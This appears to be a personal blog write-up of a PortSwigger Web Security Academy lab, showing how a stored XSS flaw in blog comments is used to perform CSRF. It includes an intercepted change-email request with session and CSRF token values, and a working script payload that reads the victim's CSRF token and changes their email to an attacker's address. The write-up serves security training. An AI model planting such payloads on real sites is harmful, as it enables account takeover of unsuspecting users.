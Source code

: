```yaml
---
layout: post
title:  "Exploiting XSS to perform CSRF"
date:   2024-09-29 09:39:54 +0530
categories: [BSCP, XSS]
---
```


## Intro 

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`⁠

  

## Solution

As they mentioned that email change fnctionality is some interesting piece of vulnerability to check the lab 

  

![]({{ site.baseurl }}/assets/images/image.png)  

  

Change the email, Intercept the request in burpsuite and the request looks like this

  

```bash
POST /my-account/change-email HTTP/2
Host: 0a470088045c3a718c88df1b000300bd.web-security-academy.net
Cookie: session=LDVKjeWBrMHGqQ1zoptKz3E6qTFhr3m3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: https://0a470088045c3a718c88df1b000300bd.web-security-academy.net
Dnt: 1
Referer: https://0a470088045c3a718c88df1b000300bd.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers

email=test%40gmail.com&csrf=O7i3U2JlBGsRYmmMOzdTDO0vBFGzImcQ
```

  

Now let’s remove the CSRF parameter along with the value and found that request won’t pass out 

  

  

![]({{ site.baseurl }}/assets/images/image%202.png)  

  

CSRF Parameter is properly being validated and the token is being pulled off from the `view-source`  page as a hidden parameter 

  

![]({{ site.baseurl }}/assets/images/image%203.png)  

  

Since the attribute name is `csrf`  and we can able to pull off csrf token with the following snippet `document.getElementsByName('csrf')[0].value`⁠

  

![]({{ site.baseurl }}/assets/images/image%204.png)  

  

And here is the full exploit and where we can plant inside some kind of blog post as comments and wait for sometime for the lab to solve 

  

```html
<script>
    window.addEventListener('DOMContentLoaded', function() {
    var token = document.getElementsByName('csrf')[0].value
    var data = new FormData();
    data.append('csrf', token);
    data.append('email', 'M4rdukwasH3re@EvilEmail.com');
    fetch('/my-account/change-email', {
        method: 'POST',
         mode: 'no-cors',
        body: data
    });
    });
</script>
```

  

Once after posting the comment, our lab is solved because the victim’s email changed

  

![]({{ site.baseurl }}/assets/images/image%205.png)